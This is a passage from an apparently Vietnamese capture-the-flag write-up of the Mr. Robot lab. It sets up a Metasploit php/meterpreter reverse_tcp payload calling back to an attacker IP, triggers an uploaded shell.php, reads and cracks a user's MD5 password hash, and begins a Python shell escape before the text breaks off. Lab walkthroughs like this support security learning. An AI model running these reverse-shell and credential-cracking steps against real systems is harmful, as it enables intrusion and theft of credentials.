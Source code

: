 <span class="hljs-keyword">set</span> payload <span class="hljs-comment">php</span>/meterpreter/<span class="hljs-comment">reverse_tcp</span>
<span class="hljs-keyword">set</span> <span class="hljs-comment">LHOST 192.168.226.155</span>
<span class="hljs-keyword">set</span> <span class="hljs-comment">LPORT 4444</span>
exploit <span class="hljs-comment">-j -z</span>
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-15.png#full" alt="mr-robot-15.png"></p>
<p>Chúng ta tiến hành chạy shell bằng đường dẫn như sau: <strong><a href="http://192.168.226.158/wp-content/uploads/shell.php">http://192.168.226.158/wp-content/uploads/shell.php</a></strong>. Chúng ta đã thành công trong việc thiết lập kết nối đến máy chủ. Chúng ta gõ câu lệnh dưới đây để tiến hành tương tác với máy chủ:</p>
<pre><code class="lang-bash">sessions -<span class="hljs-selector-tag">i</span> <span class="hljs-number">1</span>
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-16.png#full" alt="mr-robot-16.png"></p>
<p>Tiến hành kiểm tra thông tin hệ điều hành máy chủ bằng lệnh sau:</p>
<pre><code class="lang-bash"><span class="hljs-attribute">sysinfo</span>
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-17.png#full" alt="mr-robot-17.png"></p>
<p>Máy chủ sử dụng hệ điều hành <strong>Linux</strong>, tức là chúng ta cần phải tìm xem trong các thư mục của hệ điều hành này thì nơi nào sẽ chứa chìa khóa cần tìm.</p>
<p>Đầu tiên, chúng ta cần kiểm tra được thư mục <strong>home</strong> có người dùng nào đang sử dụng. Chúng ta gõ các lệnh sau để kiểm tra:</p>
<pre><code class="lang-bash"><span class="hljs-keyword">cd</span> /home
<span class="hljs-keyword">ls</span>
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-18.png#full" alt="mr-robot-18.png"></p>
<p>Chúng ta phát hiện user đang sử dụng có tên là <strong>robot</strong>, chúng ta tiếp tục vào thư mục robot và sẽ thấy điều bất ngờ xảy ra:</p>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-19.png#full" alt="mr-robot-19.png"></p>
<p>Chúng ta đã tìm ra được chìa khóa thứ 2, nhưng chúng ta không có cách nào để mở được nó. Chúng ta để ý rằng có sự xuất hiện của file <strong>password.raw-md5</strong>. File mật khẩu này đã bị mã hóa bằng mã <strong>MD5</strong>, chúng ta sẽ kiểm tra file này và tiến hành giải mã nó.</p>
<p>Kiểm tra nội dung file bằng lệnh dưới đây:</p>
<pre><code class="lang-bash"><span class="hljs-selector-tag">cat</span> <span class="hljs-selector-tag">password</span><span class="hljs-selector-class">.raw-md5</span>
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-20.png#full" alt="mr-robot-20.png"></p>
<p>Dán đoạn mã này lên website <a href="https://www.md5online.org/">https://www.md5online.org/</a> và ta sẽ được kết quả như sau:</p>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-21.png#full" alt="mr-robot-21.png"></p>
<p>Chúng ta đã có mật khẩu, việc cuối cùng là đăng nhập máy chủ quyền cao nhất - <strong>root</strong>. Chúng ta gõ câu lệnh sau trong Metasploit:</p>
<pre><code class="lang-bash"><span class="hljs-attribute">shell</span>
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-22.png#full" alt="mr-robot-22.png"></p>
<p>Câu lệnh này sẽ cho phép tạo tiến trình thực thi các lệnh trong máy chủ. Nhưng có 1 vấn đề khá nan giải, đó là bạn không thể đăng nhập đơn giản chỉ với câu lệnh <strong>sudo -i</strong> do chúng ta đang thực hiện kết nối thông qua socket.</p>
<p>Để thực hiện việc này, chúng ta cần phải kiểm tra xem máy chủ này có sử dụng <strong>Python</strong> hay không với câu lệnh sau:</p>
<pre><code class="lang-python"><span class="hljs-keyword">python</span> --<span class="hljs-keyword">version</span>
</code></pre>
<p><img class="article-img" src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-23.png#full" alt="mr-robot-23.png"></p>
<p>Khá may mắn khi máy chủ đã tích hợp sẵn Python. Việc bây giờ của chúng ta là viết một đoạn script cho phép thực hiện các câu lệnh <strong>bash</strong> thông qua các thư viện có sẵn trong Python. Đoạn script sẽ có dạng như thế này:</p>